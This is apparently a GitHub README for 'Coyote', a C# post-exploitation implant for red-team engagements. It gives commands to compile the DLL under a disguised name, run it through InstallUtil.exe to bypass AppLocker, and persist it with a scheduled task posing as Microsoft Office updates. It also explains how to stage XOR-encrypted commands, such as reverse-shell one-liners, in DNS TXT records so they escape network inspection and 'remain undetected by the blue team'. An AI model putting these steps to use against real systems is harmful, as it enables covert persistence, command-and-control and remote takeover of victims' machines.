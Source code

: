 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting (eg AppLocker) using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves encrypted commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs`

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll`

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

`schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00`

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), use the included encrypt-payload.ps1 powershell script. Give it the exact string that you would have typed into the command line and copy the encrypted output into a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home the TXT record will be decrypted and executed. Any network security product that happens to be examining DNS traffic (many networks don't even do this at all) will not be able to see the raw payload on the wire.

### Proof-of-concept

We use the encrypt-payload.ps1 powershell script to XOR our payload of "calc.exe" with our key of "pizza" and base64 encode the result: 

![Coyote payload encryption screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot2.jpg?raw=true)

Using the output of the powershell script we create a TXT record on our DNS server as follows:

`updates.tartaruslabs.com	TXT	EwgWGU8VER8=	7200`

It is best to set a fairly low TTL so that you don't have to wait too long each time you modify the TXT record for it to be dropped from the cache on the compromised network's own DNS server and refreshed from the authoritative DNS server. In this case we set the TTL to 7200 seconds, or 2 hours.

This record is saved and from a Linux laptop we then confirm it is active:

`user@laptop:~$ host -t txt updates.tartaruslabs.com`

`updates.tartaruslabs.com descriptive text "EwgWGU8VER8="`

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and XORkey to "pizza" then compile it on our Windows VM.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot.jpg?raw=true)

